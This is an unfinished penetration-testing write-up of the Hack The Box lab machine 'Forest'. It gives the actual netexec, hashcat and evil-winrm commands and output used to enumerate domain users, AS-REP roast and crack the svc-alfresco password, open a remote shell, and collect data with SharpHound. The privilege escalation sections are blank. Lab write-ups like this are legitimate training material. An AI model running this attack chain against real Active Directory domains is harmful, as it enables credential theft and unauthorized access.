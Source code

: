 ```yaml
---
target_ip: 10.10.10.161
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-14
status: in_progress
services: ['kpasswd5', 'microsoft-ds', 'msrpc', 'netbios-ssn', 'kerberos-sec', 'domain', 'ldap', 'ncacn_http', 'http', 'tcpwrapped']
techniques_used: []
tools_used: [nmap]
---
```


# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025

## Summary

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

## Enumeration

Generated and appended a hosts file to `/etc/hosts` to avoid possible DNS issues later on with Kerberos.
```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

Enumerated the domain users.
```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 


Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Exploitation

Performed an AS-REP Roast attack on the list of users, to find a service account `svc-alfresco` with Kerberos pre-authentication disabled.
```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

I then cracked its AS-REP hash with `hashcat` to reveal its password `s3rvice`.
```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

Discovered I could login to the service account via `winrm` on port `5985`.
```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Used `evil-winrm` to get a remote shell.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

User flag was in `svc-alfresco`'s Desktop.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

SharpHound was already on the machine in the `svc-alfresco` user's home directory. I ran it to collect everything.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

And downloaded it to my machine.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

So I started Bloodhound
```bash
sudo ./bloodhound-cli containers start

[+] Checking the status of Docker and the Compose plugin...
[+] Starting the BloodHound environment
[+] Running `docker` to restart containers with docker-compose.yml...
```






## Privilege Escalation

### Enumeration

### Escalation

### Root Flag

## References

---
#forest #htb #easy #windows #netexec #asreproast #hashcat #bloodhound #sharphound
